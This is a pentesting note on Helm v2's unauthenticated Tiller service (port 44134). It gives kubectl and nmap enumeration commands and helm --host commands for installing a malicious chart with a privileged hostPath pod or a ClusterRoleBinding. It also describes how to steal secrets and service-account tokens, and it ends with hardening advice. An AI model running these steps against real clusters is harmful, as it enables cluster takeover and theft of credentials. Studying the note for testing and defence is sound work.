

# 95 - Tiller / Helm (Port 44134) Pentesting

## 1. Executive Summary

Helm v2's server-side component **Tiller** runs in Kubernetes on **TCP 44134** (gRPC). The catastrophic default: Tiller has **no authentication** and typically runs with a **highly-privileged ServiceAccount (often cluster-admin)**. Anyone who can reach 44134 — another pod in the cluster, or an exposed service — can drive Tiller to **deploy/modify any resource in any namespace**, i.e. effectively **own the whole Kubernetes cluster**. This is a classic in-cluster privilege-escalation primitive (reached after compromising any pod). Helm v3 removed Tiller for exactly this reason.

## 2. Protocol Overview & Architecture

Tiller listens on gRPC 44134 and executes Helm operations (install/upgrade/delete charts) using its own ServiceAccount's RBAC — not the caller's. With no client auth, the caller inherits Tiller's privileges. So if Tiller is cluster-admin (common), an unauthenticated in-cluster client gains cluster-admin by asking Tiller to apply a malicious chart (e.g. a pod that mounts the host or grants you a token).

## 3. Enumeration & Footprinting

```bash
# From a compromised pod / with kubectl access — find Tiller
kubectl get pods --all-namespaces | grep -i tiller
kubectl get svc  --all-namespaces | grep -i tiller
kubectl get pods -n kube-system  | grep -i tiller
nmap -p 44134 <pod-ip>          # gRPC, 'unknown'
```

## 4. Exploitation Deep Dive

### 4.1 Talk to Tiller Directly (no auth)
Point a Helm v2 client at the reachable Tiller and operate with its privileges:
```bash
helm --host <tiller-ip>:44134 version
helm --host <tiller-ip>:44134 ls --all
```

### 4.2 Deploy Malicious Chart → Cluster Takeover
Install a chart that creates a privileged pod / mounts the host / grabs a cluster-admin token:
```bash
helm --host <tiller-ip>:44134 install --name pwn ./evil-chart
# evil-chart: pod with hostPath /:/host + privileged, or a ClusterRoleBinding to your SA
```
Tiller applies it with cluster-admin RBAC → you control the cluster / underlying nodes.

### 4.3 Token / Secret Theft
Use Tiller to read Secrets across namespaces (deploy a pod that dumps SA tokens / app secrets) → pivot to cloud and apps.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Cluster-admin: deploy anywhere, read all Secrets, schedule on any node.
- Host access via privileged/hostPath pods → node compromise.
- Pivot to cloud (node IAM/managed identity) and all hosted apps.

## 7. Defense & Hardening
1. **Migrate to Helm v3** (no Tiller).
2. If Helm v2 is required: enable TLS + client-cert auth on Tiller; run it with a **least-privilege** ServiceAccount (namespace-scoped), never cluster-admin.
3. NetworkPolicy to block pod→Tiller traffic; never expose 44134.

## 8. Chaining Opportunities
- Cluster/node takeover → **Cloud and Container Security** category.
- Stolen tokens/secrets → databases, cloud, apps across this module.

## 9. Related Notes
- [[48 - Docker Engine API (Port 2375) Pentesting]]
- [[01 - SSH (Port 22) Pentesting]]

## 10. Tools
`helm` (v2, `--host`), `kubectl`, `nmap`.
